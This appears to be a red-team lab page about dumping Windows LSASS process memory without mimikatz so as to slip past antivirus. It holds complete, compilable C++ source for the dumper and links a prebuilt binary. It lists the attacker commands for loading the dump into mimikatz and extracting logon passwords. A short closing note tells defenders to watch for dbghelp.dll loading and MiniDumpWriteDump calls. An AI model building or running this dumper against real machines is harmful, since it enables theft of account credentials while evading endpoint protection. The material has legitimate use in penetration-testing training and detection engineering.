 # Dumping LSASS without Mimikatz: MiniDumpWriteDump == Bypassing AV Signatures

This lab explores how one could write a simple `lsass` process dumper for extracting the passwords it contains later on with mimikatz. **Possibly** without getting detected by some AV vendors.

{% hint style="info" %}
The below code uses a number of known Windows API calls that could still be flagged by some antivirus agent or EDR solution.
{% endhint %}

## Code

Let's go ahead and compile this C++ code:

{% code-tabs %}
{% code-tabs-item title="dumper.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL; 
	HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}
	
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	
	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}
	
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../../.gitbook/assets/createminidump.exe" caption="CreateMiniDump.exe" %}

Do not forget to add `dbghelp.lib` as a dependency in the Linker &gt; Input settings for your C++ project if the compiler is giving you a hard time:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-01-44.png)

## Execution Demo

1. Execute CreateMiniDump.exe \(compiled file above\) or compile your own binary
2. Lsass.dmp gets dumped to the working directory
3. Take the lsass.dmp offline to your attacking machine
4. Open mimikatz and load in the dump file 
5. Dump passwords

{% code-tabs %}
{% code-tabs-item title="attacker" %}
```csharp
.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/peek-2019-03-23-17-02.gif)

### Why it's worth it?

See how Windows Defender on Windows 10 is flagging up mimikatz immediately... but allows running CreateMiniDump.exe? Good for us - we get lsass.exe dumped to `lsass.dmp`:

![](../../.gitbook/assets/peek-2019-03-23-21-25.gif)

..which then can be read in mimikatz offline:

![](../../.gitbook/assets/screenshot-from-2019-03-23-21-26-41.png)

## Observations

As mentioned earlier, the code above uses a native windows API call `MiniDumpWriteDump` to make a crash dump of a given process. If you are on the blue team and trying to write detections for these activities, look for processes loading in `dbghelp.dll` and calling `MiniDumpWriteDump` function:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-08-29.png)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot" %}

